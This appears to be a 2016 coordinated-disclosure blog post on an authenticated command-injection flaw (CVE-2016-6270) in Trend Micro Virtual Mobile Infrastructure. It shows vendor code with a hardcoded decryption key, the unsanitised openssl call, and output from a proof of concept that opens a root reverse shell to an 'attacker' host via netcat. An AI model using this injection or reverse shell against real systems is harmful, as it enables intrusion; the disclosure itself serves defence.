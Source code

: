 ```yaml
---
layout: post
title:  "Trend Micro Bug Hunting - Part III"
date:   2016-10-08 07:00:00
comments: true
categories: pentesting trendmicro
---
```



Trend Micro Virtual Mobile Infrastructure is affected by a remote command execution vulnerability. This vulnerability can be exploited by authenticated user on the web administration panel of VMI to gain remote command execution with root privileges.

From Trend Micro documentation:

> Trend Micro Virtual Mobile Infrastructure is a service that hosts independent workspaces for every user. A user workspace is based on Android operating system, which is accessible via Virtual Mobile Infrastructure mobile client application installed on an Android, iOS or Windows mobile device. Using the mobile client application, users can access the same mobile environment that includes all their applications and data from any location, without being tied to a single mobile device. The mobile client application preserves the original Android user experience by providing all the Android features and their controls to the user.

I recommend anyone running Virtual Mobile Infrastructure to update to version 5.1, available at the following location:

*  [Virtual Mobile Infrastructure 5.1](http://downloadcenter.trendmicro.com/index.php?regs=NABU&clk=latest&clkval=4968&lang_loc=1)

Trend Micro Advisory is available on their latest security bulletin: [Security Bulletin: Trend Micro Virtual Mobile Infrastructure (VMI) Remote Code Execution Vulnerability](https://success.trendmicro.com/solution/1115411)

#### Affected Versions

* Trend Micro Virtual Mobile Infrastructure up to version 5.0

### Authenticated RCE - Technical Description

The administration interface provides a way for administrators to upload certificates by going to Administration > Certificate Management. The interface uploads a certificate file then sends a reference to the uploaded certificate and the password to unlock that certificate.

To understand how everything pans out, you first have to understand how VMI server works.

The request is handled by the following Django code in ```vmi/manager/configuration/views.py```. We can see that the password is decrypted using a hardcoded key (```#$vmi4trend```) using Blowfish with PKCS7 padding, then a call to ```sendAndRecvCmd``` is made with the certificate filename and password as parameters.

{% highlight python %}
class SaveIdentifyView(APIView):
  def post(self, request):
    try:
      pw = decode_with_hex_bf_pkcs7(VMI.JS_ENCRYPTION_MAGIC_CODE, request.DATA['password'])
      file_name = request.DATA['filename']
      (ret, all) = sendAndRecvCmd(CMD.CMD_IMPORT_IDENTIFY_CLIENT_PFX, filename = file_name, password = pw)
      data = { }
      data['fail'] = len(ret)
      data['total'] = all
      desc = audit_log[AuditLogType.CERTIFICATE_MANAGEMENT]
      admin = request.user
      setAuditLog(desc, AuditLogType.CERTIFICATE_MANAGEMENT, admin)
      return generalJsonResponse(status.HTTP_200_OK, ErrorCode.SUCCESS, ret, data)
    except Exception:
      e = None
      logger.error(str(e))
      return generalJsonResponse(status.HTTP_400_BAD_REQUEST, ErrorCode.FAILURE)
{% endhighlight %}

The ```sendAndRecvCmd``` function is defined in ```vmi/manager/engine/api.py```. This function sends data to the local Redis server. The data being sent is composed of a command identifier and parameters to be used with that command. On launch, the server register a bunch of redis worker that listens for data being sent to Redis. Each worker will decide to execute a command based on the command identifier.

{% highlight python %}
class BaseCmd(object):

  def sendAndReceive(cls, cmd):
    return BaseCmd.sendAndReceiveEx(cmd, get_redis())
  sendAndReceive = classmethod(sendAndReceive)

  def sendAndReceiveEx(cls, cmd, redis):
    cmd.ret_addr = 'vmi_ret_addr_%d' % id(cmd)
    key = CMD.get_queue(cmd.cmd)
    redis.rpush(key, jsonpickle.encode(cmd))
    popped = redis.blpop(cmd.ret_addr, settings.VMIM['execute_cmd_timeout'])
    if popped is not None:
      return jsonpickle.decode(popped[1])
    logger.warn('timeout for cmd: %s' % jsonpickle.encode(cmd))
  sendAndReceiveEx = classmethod(sendAndReceiveEx)

  def send(cls, cmd):
    BaseCmd.sendEx(cmd, get_redis())
  send = classmethod(send)

  def sendEx(cls, cmd, redis):
    cmd.ret_addr = None
    redis.rpush(CMD.get_queue(cmd.cmd), jsonpickle.encode(cmd))
    sendEx = classmethod(sendEx)
    cmd = 0
    ret_addr = None

def sendAndRecvCmd(cmd, **kargs):
    return BaseCmd.sendAndReceive(GeneralCmd(cmd, **None))
{% endhighlight %}

The worker that receives the command is ```/vmi/manager/engine/management/commands/apns_worker.py```.

As we can see in the excerpt below, the password parameter is not sanitized and directly fed to an openssl command line. This can be exploited by injecting system commands into the password field to gain remote command execution.

{% highlight python %}
def handle_certificate(self, pfx_file, password):
  if os.path.exists(pfx_file):
    cmd = "openssl pkcs12 -in '%s' -clcerts -out %s -passin pass:%s -passout pass:" % (pfx_file, self.cert_tmp, password)
    (status, result) = commands.getstatusoutput(cmd)
{% endhighlight %}


I wrote the initial proof-of-concept using Python. You can get the code from [here]({{site.url}}assets/exploit_vmi.py).

<pre style="background-color:black;width: auto; height: auto; word-wrap: break-word; white-space: pre-wrap; overflow:auto; overflow-y: hidden; color:white;font-family:'monospace';">
python exploit.py --rhost vmi --rport 8443 --lhost attacker --lport 4444 --username admin --password admin
[+] Login to https://vmi:8443/
[+] Successfully logged in.
[+] Uploading vmi.pfx to the server ...
[+] File uploaded successfully (7283f4f2-ae5a-4683-957f-348418a10c67.pfx)
[+] Sending payload ...
</pre>

And here goes your root shell :)

<pre style="background-color:black;width: auto; height: auto; word-wrap: break-word; white-space: pre-wrap; overflow:auto; overflow-y: hidden; color:white;font-family:'monospace';">
nc -lvp 4444
listening on [any] 4444 ...
bash: no job control in this shell
[root@localhost /]# whoami
root
[root@localhost /]# pwd
/
[root@localhost /]# 
</pre>


### Conclusion

This is a nice example of a bug that only code review could have catched. First, the password has to be properly decrypted to even reach the `sendAndRcv` call which means it has to be properly encrypted in the first place. Nothing that tools like Burp or Zap could have picked up. Then this all redis worker path could have prevented proper identification of the bug.

Once again, Trend Micro vulnerability team was great in handling this coordinated disclosure.


### Disclosure Timeline

* 2016-05-11: Advisory sent to Trend Micro 
* 2016-05-11: Trend Micro acknowledge the issue
* 2016-05-20: Trend Micro provides a planning for the fix
* 2016-10-08: Trend Micro released a patch

### CVE Identifier

* [CVE-2016-6270](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=2016-5270) - Authenticated remote code execution by exploiting the vulnerability in which ```openssl``` is used directly with untrusted input within ```apns_worker.py```

### Exploit

* [Python PoC]({{site.url}}assets/exploit_vmi.py)
* Metasploit module - Will push it by this evening :)
